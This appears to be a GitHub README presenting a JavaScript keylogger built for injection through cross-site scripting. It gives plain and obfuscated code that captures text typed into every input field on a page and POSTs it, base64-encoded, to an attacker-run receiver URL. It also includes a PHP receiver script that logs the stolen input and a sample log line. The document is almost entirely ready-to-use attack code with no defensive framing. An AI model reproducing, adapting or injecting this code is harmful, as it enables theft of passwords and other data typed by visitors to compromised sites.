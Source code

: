 Simple Keylogger written in JavaScript to be used in XSS attacks
===

The script creates an event to detect the insertion of text in each text field of type "input" and sends the written content to the specified server that will have the second script called "receiver.php" running.

## JavaScript Source Code

** Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script **

```javascript=
var str = "";
var lastPress = Date.now();
var sent = true;
var declared = false;
var element = "";

var inputs = document.querySelectorAll('input');
for (i = 0; i < inputs.length; i++) {
    inputs[i].oninput = function(e) {
        str = e.target.value;
        element = e.target.outerHTML;
        sent = false;
        lastPress = Date.now();
    }
}

if (declared === false) {
    declared = true;
    var req = new XMLHttpRequest();
    window.setInterval(function() {
        if (sent === false && (Date.now() - lastPress) >= 2000) {
            sent = true;
            req.open("POST","TYPE_THE_RECEIVER.PHP_URL_HERE", true);
            req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
            req.send("str="+btoa(element+" -> "+str));
        }
    }, 500);
}
```

## JavaScript Ofuscated Source Code

** Replace the `TYPE_THE_RECEIVER.PHP_URL_HERE` with the URL of the receiver script **

```javascript=
var _0x46009d=_0x1166;(function(_0x5240e0,_0xa2a147){var _0x2b658c=_0x1166,_0x471711=_0x5240e0();while(!![]){try{var _0x2785e6=-parseInt(_0x2b658c(0xdc))/0x1*(parseInt(_0x2b658c(0xdf))/0x2)+-parseInt(_0x2b658c(0xd9))/0x3+-parseInt(_0x2b658c(0xdb))/0x4+-parseInt(_0x2b658c(0xe2))/0x5+-parseInt(_0x2b658c(0xeb))/0x6+parseInt(_0x2b658c(0xde))/0x7*(-parseInt(_0x2b658c(0xe5))/0x8)+parseInt(_0x2b658c(0xdd))/0x9;if(_0x2785e6===_0xa2a147)break;else _0x471711['push'](_0x471711['shift']());}catch(_0x5579f9){_0x471711['push'](_0x471711['shift']());}}}(_0x1591,0x629fd));var str='',lastPress=Date[_0x46009d(0xe8)](),sent=!![],declared=![],element='',inputs=document[_0x46009d(0xda)](_0x46009d(0xd5));for(i=0x0;i<inputs[_0x46009d(0xd8)];i++){inputs[i][_0x46009d(0xe3)]=function(_0x37b8b9){var _0x83cbfa=_0x46009d;str=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd6)],element=_0x37b8b9[_0x83cbfa(0xe9)][_0x83cbfa(0xd7)],sent=![],lastPress=Date[_0x83cbfa(0xe8)]();};}function _0x1591(){var _0x4419c4=['str=','open','2552125XAdCtV','oninput','setInterval','589216BpoPwR','TYPE_THE_RECEIVER.PHP_URL_HERE','application/x-www-form-urlencoded','now','target','send','2332524ujwUnQ','input','value','outerHTML','length','908493niXoGr','querySelectorAll','2406004KvWXcB','16739DEdXzG','28635201KKIsoe','56tjjgLb','46uBySdK'];_0x1591=function(){return _0x4419c4;};return _0x1591();}function _0x1166(_0x31ece7,_0x2e443e){var _0x159156=_0x1591();return _0x1166=function(_0x116607,_0x4a095d){_0x116607=_0x116607-0xd5;var _0x226807=_0x159156[_0x116607];return _0x226807;},_0x1166(_0x31ece7,_0x2e443e);}if(declared===![]){declared=!![];var req=new XMLHttpRequest();window[_0x46009d(0xe4)](function(){var _0x40b287=_0x46009d;sent===![]&&Date[_0x40b287(0xe8)]()-lastPress>=0x7d0&&(sent=!![],req[_0x40b287(0xe1)]('POST',_0x40b287(0xe6),!![]),req['setRequestHeader']('Content-type',_0x40b287(0xe7)),req[_0x40b287(0xea)](_0x40b287(0xe0)+btoa(element+'\x20->\x20'+str)));},0x1f4);}
```

## PHP Source Code

```php=
<?php
    header('Access-Control-Allow-Origin: *');
    if (isset($_POST['str']) && strlen($_POST['str']) > 0) {
        file_put_contents("keylog.log", date('Y/m/d h:i:s')." | ".base64_decode($_POST['str']).PHP_EOL, FILE_APPEND);
    }
?>
```

## Log Output Example

```
2022/01/02 07:50:48 | <input type="text" id="inputTestId" name="inputTestName" class="inputTestClass"> -> This is a log example
```
